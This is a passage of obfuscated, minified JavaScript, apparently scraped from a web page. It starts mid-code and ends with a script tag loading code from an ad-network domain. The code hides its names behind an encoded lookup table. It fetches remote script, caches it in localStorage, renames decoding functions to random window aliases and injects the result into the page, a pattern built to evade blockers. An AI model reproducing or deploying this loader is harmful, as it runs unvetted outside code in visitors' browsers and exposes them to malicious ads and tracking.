V(function(x,n){r[b('0x8a')]({p:this,r:x,j:n,1:c,0:t})});if(e&&l(i,e)|l(d,e))try{u=e[b('0x10b')]}catch(b){t=0,e=b}if(l(i,u))try{u[b('0x1')](e,a(1),t=a(0))}catch(b){t(b)}else for(f=function(n,b){return l(i,n=t?n:b)?V(function(b,x){Z(this,b,x,e,n)}):o},x=0;x<r[b('0x3c')];)u=r[x++],l(i,c=u[t])?Z(u.p,u.r,u.j,e,c):(t?u.r:u.j)(e);function a(x){return function(b){u&&(u=0,n(l,x,b))}}}).q=[],o[b('0x1')](o={},function(b){f(l,1,b)},function(b){f(l,0,b)}),o[b('0x10b')]=function(b,x){return f(b,x)},o[b('0x10c')]=function(b){return f(0,b)},o}function Z(x,n,c,t,e){r(function(){try{e=(t=e(t))&&l(d,t)|l(i,t)&&t[b('0x10b')],l(i,e)?t==x?c(TypeError()):e[b('0x1')](t,n,c):n(t)}catch(b){c(b)}})}function u(x){return V(function(b){b(x)})}(x[b('0x0')]=V)[b('0x1cb')]=u,V[b('0x1cc')]=function(n){return V(function(b,x){x(n)})},V[b('0x1cd')]=function(x){return V(function(c,t,e,r){r=[],e=x[b('0x3c')]||c(r),x[b('0x3b')](function(x,n){u(x)[b('0x10b')](function(b){r[n]=b,--e||c(r)},t)})})},V[b('0x1ce')]=function(x){return V(function(n,c){x[b('0x3b')](function(x){u(x)[b('0x10b')](n,c)})})}}('f','o')})[b('0x1')](n,c(31)[b('0x1cf')])},function(x,e,r){(function(x){var n=typeof x!==b('0x3f')&&x||typeof self!==b('0x3f')&&self||window,c=Function[b('0x5')][b('0x122')];function t(x,n){this[b('0x1d5')]=x,this[b('0x1d6')]=n}e[b('0x1d0')]=function(){return new t(c[b('0x1')](setTimeout,n,arguments),clearTimeout)},e[b('0x1d1')]=function(){return new t(c[b('0x1')](setInterval,n,arguments),clearInterval)},e[b('0x1d2')]=e[b('0x1d3')]=function(x){x&&x[b('0x1d4')]()},t[b('0x5')][b('0x1d7')]=t[b('0x5')][b('0x1d8')]=function(){},t[b('0x5')][b('0x1d4')]=function(){this[b('0x1d6')][b('0x1')](n,this[b('0x1d5')])},e[b('0x1d9')]=function(x,n){clearTimeout(x[b('0x1da')]),x[b('0x1db')]=n},e[b('0x1dc')]=function(x){clearTimeout(x[b('0x1da')]),x[b('0x1db')]=-1},e[b('0x1dd')]=e[b('0x1de')]=function(x){clearTimeout(x[b('0x1da')]);var n=x[b('0x1db')];0<=n&&(x[b('0x1da')]=setTimeout(function(){x[b('0x1df')]&&x[b('0x1df')]()},n))},r(32),e[b('0x1cf')]=typeof self!==b('0x3f')&&self[b('0x1cf')]||typeof x!==b('0x3f')&&x[b('0x1cf')]||this&&this[b('0x1cf')],e[b('0x1e0')]=typeof self!==b('0x3f')&&self[b('0x1e0')]||typeof x!==b('0x3f')&&x[b('0x1e0')]||this&&this[b('0x1e0')]})[b('0x1')](e,r(16))},function(x,n,c){(function(x,Z){!function(c,t){'use strict';if(!c[b('0x1cf')]){var e,r,n,u,x,a=1,o={},f=!1,i=c[b('0x19a')],d=Object[b('0x1ed')]&&Object[b('0x1ed')](c);d=d&&d[b('0x1d0')]?d:c,{}[b('0x38')][b('0x1')](c[b('0x1ee')])===b('0x1ef')?e=function(x){Z[b('0x1e4')](function(){V(x)})}:!function(){if(c[b('0x54')]&&!c[b('0x1e5')]){var x=!0,n=c[b('0x1e6')];return c[b('0x1e6')]=function(){x=!1},c[b('0x54')]('','*'),c[b('0x1e6')]=n,x}}()?c[b('0x1f0')]?((n=new MessageChannel)[b('0x1ea')][b('0x1e6')]=function(x){V(x[b('0xfc')])},e=function(x){n[b('0x1eb')][b('0x54')](x)}):i&&b('0x1ec')in i[b('0x79')](b('0xe5'))?(r=i[b('0x5d')],e=function(x){var n=i[b('0x79')](b('0xe5'));n[b('0x1ec')]=function(){V(x),n[b('0x1ec')]=null,r[b('0x83')](n),n=null},r[b('0x81')](n)}):e=function(b){setTimeout(V,0,b)}:(u=b('0x1e7')+Math[b('0x42')]()+'$',x=function(x){x[b('0x1e8')]===c&&typeof x[b('0xfc')]===b('0x70')&&0===x[b('0xfc')][b('0x97')](u)&&V(+x[b('0xfc')][b('0x43')](u[b('0x3c')]))},c[b('0x55')]?c[b('0x55')](b('0x139'),x,!1):c[b('0x1e9')](b('0x1e6'),x),e=function(x){c[b('0x54')](u+x,'*')}),d[b('0x1cf')]=function(x){typeof x!==b('0x1e1')&&(x=new Function(''+x));for(var n=new Array(arguments[b('0x3c')]-1),c=0;c<n[b('0x3c')];c++)n[c]=arguments[c+1];var t={};return t[b('0x1e2')]=x,t[b('0x1e3')]=n,o[a]=t,e(a),a++},d[b('0x1e0')]=l}function l(b){delete o[b]}function V(x){if(f)setTimeout(V,0,x);else{var n=o[x];if(n){f=!0;try{!function(x){var n=x[b('0x1e2')],c=x[b('0x1e3')];switch(c[b('0x3c')]){case 0:n();break;case 1:n(c[0]);break;case 2:n(c[0],c[1]);break;case 3:n(c[0],c[1],c[2]);break;default:n[b('0x122')](t,c)}}(n)}finally{l(x),f=!1}}}}}(typeof self===b('0x3f')?typeof x===b('0x3f')?this:x:self)})[b('0x1')](n,c(16),c(33))},function(x,n){var c,t,e=x[b('0x0')]={};function r(){throw new Error(b('0x1f1'))}function u(){throw new Error(b('0x1f2'))}function a(n){if(c===setTimeout)return setTimeout(n,0);if((c===r||!c)&&setTimeout)return c=setTimeout,setTimeout(n,0);try{return c(n,0)}catch(x){try{return c[b('0x1')](null,n,0)}catch(x){return c[b('0x1')](this,n,0)}}}!function(){try{c=typeof setTimeout===b('0x1e1')?setTimeout:r}catch(b){c=r}try{t=typeof clearTimeout===b('0x1e1')?clearTimeout:u}catch(b){t=u}}();var o,f=[],i=!1,d=-1;function l(){i&&o&&(i=!1,o[b('0x3c')]?f=o[b('0x99')](f):d=-1,f[b('0x3c')]&&V())}function V(){if(!i){var x=a(l);i=!0;for(var n=f[b('0x3c')];n;){for(o=f,f=[];++d<n;)o&&o[d][b('0x1f3')]();d=-1,n=f[b('0x3c')]}o=null,i=!1,function(n){if(t===clearTimeout)return clearTimeout(n);if((t===u||!t)&&clearTimeout)return t=clearTimeout,clearTimeout(n);try{t(n)}catch(x){try{return t[b('0x1')](null,n)}catch(x){return t[b('0x1')](this,n)}}}(x)}}function Z(x,n){this[b('0x1f4')]=x,this[b('0x1f5')]=n}function v(){}e[b('0x1e4')]=function(x){var n=new Array(arguments[b('0x3c')]-1);if(1<arguments[b('0x3c')])for(var c=1;c<arguments[b('0x3c')];c++)n[c-1]=arguments[c];f[b('0x8a')](new Z(x,n)),1!==f[b('0x3c')]||i||a(V)},Z[b('0x5')][b('0x1f3')]=function(){this[b('0x1f4')][b('0x122')](null,this[b('0x1f5')])},e[b('0x1f6')]=b('0x1f7'),e[b('0x1f7')]=!0,e[b('0x1f8')]={},e[b('0x1f9')]=[],e[b('0x92')]='',e[b('0x1fa')]={},e.on=v,e[b('0x1fb')]=v,e[b('0x1fc')]=v,e[b('0x1fd')]=v,e[b('0x1fe')]=v,e[b('0x1ff')]=v,e[b('0x200')]=v,e[b('0x201')]=v,e[b('0x202')]=v,e[b('0x203')]=function(b){return[]},e[b('0x204')]=function(x){throw new Error(b('0x205'))},e[b('0x206')]=function(){return'/'},e[b('0x207')]=function(x){throw new Error(b('0x208'))},e[b('0x209')]=function(){return 0}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0}),n[b('0x4')]=function(t){return(x=t,n=o[b('0xe')]===f[b('0xa6')],c=b(n?'0x176':'0x174'),e=R(),r=n?(0,l[b('0xde')])(e):e,(u=r,a=x,new(v[b('0x4')])(function(x,n){var c=document[b('0x79')](b('0xe5'));c[b('0x7f')]=u,c[b('0x55')](b('0x20a'),function(){return(0,Z[b('0x5a')])(a)?x():(c[b('0x6a')][b('0x83')](c),n())}),c[b('0x55')](b('0xfa'),function(){c[b('0x6a')][b('0x83')](c),n()});try{m[b('0x6a')][b('0x146')](c,m)}catch(x){document[b('0x5e')][b('0x81')](c)}}))[b('0x10b')](function(x){return(0,U[b('0x111')])(o[b('0x7')],c),x})[b('0x10c')](function(x){throw(0,U[b('0x112')])(o[b('0x7')],c,r),x}))[b('0x10c')](function(){return function(){if(o[b('0xe')]===f[b('0xa6')])return new(v[b('0x4')])(function(b,x){return x()});var n=b('0x175'),c=b('0x108')+(0,d[b('0x1d')])()+o[b('0x10')];return(0,i[b('0x110')])(c)[b('0x10b')](function(x){return(0,U[b('0x111')])(o[b('0x7')],n),x})[b('0x10c')](function(x){throw(0,U[b('0x112')])(o[b('0x7')],n,c),x})}()})[b('0x10c')](function(){return(0,l[b('0xe2')])(R())})[b('0x10b')](function(x){return(x=x&&x[b('0x11a')]?x[b('0x11a')]:x)&&(0,V[b('0x20c')])(o[b('0x7')],x),x})[b('0x10c')](function(){return(0,V[b('0x20d')])(o[b('0x7')])})[b('0x10b')](function(x){if(x)return x=x[b('0x137')](/atob/g,(c='_'+Math[b('0x42')]()[b('0x38')](36)[b('0x43')](2),window[c]=atob,c))[b('0x137')](/decodeURIComponent/g,(n='_'+Math[b('0x42')]()[b('0x38')](36)[b('0x43')](2),window[n]=decodeURIComponent,n)),e=x,r=t,new(v[b('0x4')])(function(x,n){var c=document[b('0x79')](b('0xe5')),t=document[b('0x20b')](e);c[b('0x55')](b('0x20a'),function(){return(0,Z[b('0x5a')])(r)?x():(c[b('0x6a')][b('0x83')](c),n())}),c[b('0x55')](b('0xfa'),function(){c[b('0x6a')][b('0x83')](c),n()}),c[b('0x81')](t);try{m[b('0x6a')][b('0x146')](c,m)}catch(x){document[b('0x5e')][b('0x81')](c)}});var e,r,n,c;if(!(0,Z[b('0x5a')])(t))throw new Error;return!0});var x,n,c,e,r,u,a};var t,o=c(0),f=c(7),i=c(13),d=c(1),l=c(9),V=c(35),Z=c(5),e=c(15),v=(t=e)&&t[b('0x3')]?t:{default:t},U=c(17);var m=document[b('0x40')];function R(){return o[b('0xe')]===f[b('0xa6')]?o[b('0xf')]:b('0x108')+(0,d[b('0x1d')])()+o[b('0xf')]}},function(x,n,c){'use strict';Object[b('0x2')](n,b('0x3'),{value:!0});var u=function(x,n){if(Array[b('0x16f')](x))return x;if(Symbol[b('0x16b')]in Object(x))return function(x,n){var c=[],t=!0,e=!1,r=void 0;try{for(var u,a=x[Symbol[b('0x16b')]]();!(t=(u=a[b('0x16c')]())[b('0x16d')])&&(c[b('0x8a')](u[b('0x53')]),!n||c[b('0x3c')]!==n);t=!0);}catch(b){e=!0,r=b}finally{try{!t&&a[b('0x16e')]&&a[b('0x16e')]()}finally{if(e)throw r}}return c}(x,n);throw new TypeError(b('0x170'))};n[b('0x20c')]=function(b,x){var n=o(b),c=u(n,2),t=c[0],e=c[1];localStorage[t]=0,localStorage[e]=x},n[b('0x20d')]=function(b){var x=o(b),n=u(x,2),c=n[0],t=n[1],e=parseInt(localStorage[c],10)||0,r=localStorage[t];{if(a<=e)return delete localStorage[c],delete localStorage[t],null;if(!r)return null}return localStorage[c]=e+1,r};var t=b('0x20e'),e='c',r='u',a=3;function o(x){var n=parseInt(x,10)[b('0x38')](36);return[[t,n][b('0x24')](r),[t,n][b('0x24')](e)]}}])}]);}());</script><script src="//propu.sh/ntfc.php?p=2611223" data-cfasync="false" async onerror="_xbaaob()" onload="_xzckuzi()"></script>
